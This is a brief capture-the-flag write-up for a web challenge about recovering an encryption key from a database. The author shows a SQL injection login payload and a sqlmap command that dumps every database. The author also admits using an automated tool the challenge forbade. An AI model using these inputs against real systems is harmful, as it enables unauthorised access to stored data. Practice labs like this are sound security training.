 # Chall Description 

In the shadow of the huge copper chimneys, a dark plot is brewing. The engineers of the Inventors' Guild have developed a revolutionary device: a steam-powered analytical machine capable of deciphering all secret codes. But before it could be activated, a group of cyber-saboteurs, the Black Mist, infiltrated its network to steal the plans. Fortunately, the plans were encrypted.

An allied spy intercepted a trail leading to the Steam Station's digital archives, where a secret database stores crucial information for deciphering the device's plans. However, access is restricted, and only a few people can extract the contents.

Your mission: exploit a flaw in the system to recover the encryption key before it falls into the wrong hands. To avoid alerting an archivist, the use of automatic tools is prohibited. Manual exploitation only.

# Steps

For this one, I just saw a form and when I put `' OR 1=1;` in the login part it gave me the list of user :

```
1 admin
2 engineer
3 researcher
4 cipher
5 guest
6 engineer2
7 archivist
```

So I just used sqlmap and got the flag (learn after that this wasn't allowed)

For this replay a `POST` request on the form in Burp Suite, then save it as `req.txt`.

Then use sqlmap : `sqlmap -r req.txt -dbs -dump`
